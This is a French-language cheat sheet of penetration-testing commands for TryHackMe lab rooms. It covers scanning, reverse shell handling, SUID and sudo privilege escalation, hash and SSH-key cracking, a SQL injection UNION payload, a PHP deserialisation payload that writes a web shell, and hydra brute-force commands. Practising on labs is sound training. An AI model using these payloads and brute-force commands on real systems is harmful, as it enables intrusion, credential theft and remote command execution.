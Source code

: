 # TryHackMe



https://github.com/veikoon/pentest/blob/master/commandes.md

Utilitaire :

​	wordlists: ls /usr/share/wordlists/dirb/
​	tmux : <ctrl+a> </> <*>  créer des nouvelles fenêtres

## Premier etape

**Endpoint : ** 

```
gobuster dir -k -x txt,json,php,html -u http://$IP -w /opt/wordlists/common.txt
gobuster fuzz --exclude-length XXXX -b 404 -k -u http://$IP/fuzz -w /opt/wordlist/common.txt
```

***Rechercher recursivement si tu trouve rien***



**Port : **

```
nmap -sC -sV -A -oN nmap.log $IP

#OU en local

ss -nlpt | grep 22 #regarde les port ouvert comprennant 22 (ssh)
```

**vulnerability :** 

```
nikto -h $IP
```

Si rien ne marche ajouter l'option -Pn au début de  nmap

**Connexion SSH**
```bash
ssh -i id_rsa user@$IP -p 22
```
SI code d'erreur ``no matching host key type found. Their offer: ssh-rsa``
Ajouter ``-oHostKeyAlgorithms=+ssh-rsa``


## Quand cest la galère

regarde les ports scanné

scan recursivement les folder

avec big.txt

regarder crontab


## Reverse Shell

[Github des différentes reverse Shell command](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)


Stabiliser bash :

```
python -c 'import pty; pty.spawn("/bin/bash")'

ctr+z

stty raw -echo; fg

ENTER
```



*Si accés a l'uppload de fichier penssé a upload un fichier reverse php ?*

**Ne pas oublier d'écouter le port**

```
nc -lvp 4242
```



## Escalation Priviledge

​	[Liste des exploit avec permission](https://gtfobins.github.io/)

```bash
Find all SUID files: "fichier executable avec une autre perm que ton user"
find / -perm -4000 -print 2>>/dev/null
Find all SGID files:
find / -perm -2000 -print 2>>/dev/null
```



```
all sudo avaible
sudo -l

(ALL, !root) => sudo -u#-1 
```



Heberger un serveur pour passer des fichier

```
python2 -m SimpleHTTPServer
```



**PWnk!it    Exploit CVE-2021-4034**  [Github  source](https://github.com/ly4k/PwnKit)
**LinPeass analyse des faille dun système** [Github Source](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)



## Hash

```
haiti -e 42f749ade7f9e195bf475f37a44cafcb
```

https://crackstation.net/

```
hashcat -m XXX(look man) -a 0 HASH.hash /opt/wordlists/rockyou.txt
```

JohnTheReapper

```
john passHash --wordlist=/opt/wordlists/rockyou.txt 
```



## Reverse Engenering

gdv ./Programme
disas main
break point
`i r` (info registry)
x/s $XXXX



gdb
jump j *@ (modifié)
breakpoint b *@

## Sql injection

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

```sql
group_concat()
```

get the specified column (in our case, table_name) from multiple returned rows and puts it into one string separated by commas. (modifié)

```sql
information_schema
```

contains information about all the databases and tables the user has access to


## osint 

```bash
exiftool WindowsXP.jpg  
```

## Steganographie

```
mogrify -format jpg important.png
java -jar stegsolve.jar 

stegsolve
steghide extract –sf image.jpeg
stegseek hellp.jpg /opt/wordlist/common.tx
```



## Windows SMB

https://tryhackme.com/room/metasploitintro

smbclient -L $IP 
smbclien -NL $IP

nmblookup -A $IP 



msfconsole
Search   *smb/netbios*
use *auxiliary/scanner/netbios/nbname*

## FTP

medusa -h $IP -U user.txt -P ./password.txt  -M ftp
**hydra -L username.txt -P password.txt ftp://$IP**

Mfsconsole :http://10.10.95.58/Lianyu.png

```bash
auxiliary(scanner/ftp/ftp_login)

PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt   
```

Montrer fichier caché sur ftp :

**dir -la**

*

## Unserialize PHP

Si il y a une fct 

**unserialize($variable)** dans le code cherche comment ecrire dans debug une version serialisé dun payload de reverse shell en php

tu serialize

```php
<?php
class FormSubmit
{
   public $form_file = 'test.php';
   public $message = '<?php system($_GET["cmd"]); ?>';
}
print serialize(new FormSubmit);
?>
```

tu execute `php code.php`

tu navigue vers 

http://10.10.33.139/index.php?debug=O:10:%22FormSubmit%22:2:s:9:%22form_file%22;s:8:%22test.php%22;s:7:%22message%22;s:30:%22%3C?php%20system($_GET[%22cmd%22]);%20?%3E%22;}

Puis vers la page que tu as créé

http://10.10.33.139/test.php?cmd=INSSERT_TA_COMMANDE



## Crack SSH key

RSA  

```bash
ssh2john privatekey>key.haash
john --wordlist=/opt/wordlists/rockyou.txt key.hash
john --show key.haas

chmod +600 id_rsa
ssh user@$IP -i id_rsa
```

## BRUTE Force

```BASH
hydra -l molly -P rockyou.txt 10.10.219.212 http-post-form "/admin/index.php:username=^USER^&password=^PASS^:F=Your password is incorrect" -V
```

**CRUNCH** 

Generate a dictionary file containing words with a minimum and maximum length of 6 (`6 6`) using the given characters (`0123456789abcdef`), saving the output to a file (`-0 6chars.txt`):

```
crunch 6 6 0123456789abcdef -o 6chars.txt
Crunch will now generate the following amount of data: 117440512 bytes
```

